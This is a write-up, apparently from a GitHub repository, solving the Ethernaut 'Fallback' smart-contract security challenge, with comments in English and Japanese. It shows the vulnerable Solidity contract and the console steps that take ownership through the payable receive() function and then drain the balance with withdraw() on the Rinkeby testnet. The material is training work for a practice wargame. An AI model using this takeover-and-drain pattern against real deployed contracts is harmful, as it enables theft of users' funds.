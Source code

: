 ## Ethernaut-solution
---
### 1.Fallback

1. you claim ownership of the contract <br>
2. you reduce its balance to 0

### learning
- How to send Ether when intracting with an ABI<br>
- How to send Ether outside of the ABI <br>
- Converting to and from wei/Ether units <br>
- Fallback methods <br>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import '@openzeppelin/contracts/utils/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;//internal database how much Ether each address has and how many token each address has, how much money each address has 
  address payable public owner;

//constructor deployed it set as owner 
  constructor() public {//executed lifecycle of smartcontract first get deploy
    owner = msg.sender; //send as owner 
    contributions[msg.sender] = 1000 * (1 ether); //mapping contribution set amount of Ether
  }

//modifier can applied any function in a smart contract 
  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

//contributionsの構成にsecurityhallがある
//何回もfunction contribute()を起動して、senderがownerよりcontributionsがmany many timesの状況になればownerになれてしまう

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }


  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

// this function is fallback function /you wanna send money to A contract 
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);//the best way attack become the owner
    //contributions条件を満たすことが攻撃の最初の準備。satisfy second condition first.
    owner = msg.sender;
  }
}
```
### solution 

- 1.you claim ownership of the contract 

*contract*...reference of our smart contract 
```
n {methods: {…}, abi: Array(7), address: '0xc3309271b114BFdC7DaDCAd2C3ED67116A798624', transactionHash: undefined, constructor: ƒ, …}
```

*contract.address*...smartcontract address 
```
'0xc3309271b114BFdC7DaDCAd2C3ED67116A798624'
```

*player*...my address 
```
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```

```
await contract.contributions(player) 
o {negative: 0, words: Array(2), length: 1, red: null}
```

//Array 0: 0 。現状no valueなのがわかる
```
await contract.getContribution()
```

//0のまんま

//そこでcall contribute function! It's payable.value: 1 => 1 ETH 

//1ETH send 
```
contract.contribute({value: 1})
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}
```

//1ETH sendでaccount valueが増えているか確認 key:value 
```
await contract.contributions(player)
o {negative: 0, words: Array(2), length: 1, red: null}
```
//Array 0: 1 。

//ownerの確認 
```
await contract.owner()
//this smartcontract own address
'0x9CB391dbcD447E645D6Cb55dE6ca23164130D008'
```

//playerの確認 = まだownerになってない
```
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```
```
//sendTransaction is special function from web3.js 
contract.sendTransaction({value: 1})
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}
```
```
//transaction
⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x3062639ee20c48140d527b324f283dfbca7b07bc2f42d1f01e907d3055b76177
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x3062639ee20c48140d527b324f283dfbca7b07bc2f42d1f01e907d3055b76177

```

//Transactionの成功によりcontractのownerが自分にchangeされているのを確認
```
await contract.owner()
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```



- 2.you reduce its balance to 0
```
//balanceの確認
await getBalance(contract.address)
'0.000000000000000002'
```
```
//function withdrawをreturn
//transfer all balance our wallet!
contract.withdraw()
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}
```
```

⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x4654244d4f2d9ece5c6cf290227532dda4960939ef760914f4e47cb9c7524c68
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x4654244d4f2d9ece5c6cf290227532dda4960939ef760914f4e47cb9c7524c68
```

//balanceが"0"になっているのを確認
```
await getBalance(contract.address)

'0'
```
